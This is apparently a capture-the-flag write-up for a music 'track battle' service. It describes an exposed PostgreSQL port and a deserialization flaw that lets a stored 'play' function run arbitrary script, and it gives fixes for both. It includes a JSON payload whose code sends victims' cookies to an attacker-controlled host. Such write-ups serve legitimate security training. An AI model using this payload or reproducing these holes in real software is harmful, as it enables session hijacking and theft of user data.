 ## Service description

The service is simple tracks editor where you can create music, post it, and start battle with other users by pressing _battle it_ button on their posts.

## Vuln 1

The first vuln is pretty simple. It is published port of the postgresql that is used by back-end:

```yaml

postgres:
    image: postgres:13.2-alpine
    restart: always
    env_file:
      - variables.env
    ports:
      - "5432:5432"
    volumes:
      - trackbattle-postgres-data:/var/lib/postgresql/data
    networks:
      - app-network
```

This vuln gives you opportunity to stole any data from back-and, including flags ;)

You can fix it by removing string`"5432:5432"`.

## Vuln 2

The second vuln is 'mistake' in tracks deserialization. Serialization\deserialization of fields *notes* and *waveform* is legal, but decorating 
function *play* with _@JsonProperty_ is logical mistake - it allows anyone to override playing melodies.

```ts
@JsonObject("Notes")
export class Notes {
    @JsonProperty("notes", String, false)
    notes: string = "";

    @JsonProperty("waveform", String, false)
    waveform: Waveform = "triangle";

    @JsonProperty("play", FunctionConverter, true)
    play = async (player: AudioPlayer) => {
        player.stopPlaying();
        await player.playString(this.notes, this.waveform)
    }
}
```

Overriding *play* function allows execute any code at `/#/track` page when button 'play' is pressed. Note: user appears in `/#/track` page 
with authorization cookies, that is key to the flag (_payment_info_ field at user info which can be obtained by `GET /api/users`).

Simpliest usage of that vuln is creating track such as:
```json
{
   "notes": "AAAAAAAAAAA",
   "waveform": "triangle",
   "play": "fetch('http://your-command-ip:8080/hello' + document.cookie)"
}
```
This track allows you to steal cookies by printing nginx\other http server access logs.

You can fix it by removing decorator _@JsonProperty_.

